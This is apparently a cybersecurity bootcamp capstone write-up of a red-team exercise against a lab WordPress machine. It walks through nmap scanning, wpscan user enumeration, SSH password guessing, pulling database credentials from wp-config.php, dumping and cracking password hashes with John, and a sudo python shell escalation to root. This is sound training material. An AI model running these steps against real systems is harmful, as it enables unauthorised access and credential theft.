 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`nmap 192.168.1.0/24`

![full nmap 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%201.PNG)
![full nmap 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%202.PNG)

## Target 1

`nmap 192.168.1.110`



This scan identifies the services below as potential points of entry:
- Target 1
  - Exposed Services
  * Open Port 22/TCP - SSH
  * Open Port 80/TCP - HTTP
  * Open Port 111/TCP - rpcbind
  * Open Port 139/TCP - netbios-ssn
  * Open Port 445/TCP - microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress Site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress Database)
  - Misconfiguration of User Privileges/Privilege Escalation

![nmap target 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/nmap%20target%201.PNG)

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -enumerate u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag 1

![wordpress 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%201.PNG)

![wordpress 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%202.PNG)

**Flag 1**

![Flag1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%201.png)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag 2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`

![flag2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%202.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.

![user & pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/pass%20%26%20user.PNG)

![enter pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/enter%20pass.PNG)

![sql 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql.PNG)

![sql 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql%20hashes.PNG)

**Flag 3**
![Flag3](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag.

![john hashes](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/john%20hashes.PNG)

![flag4](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)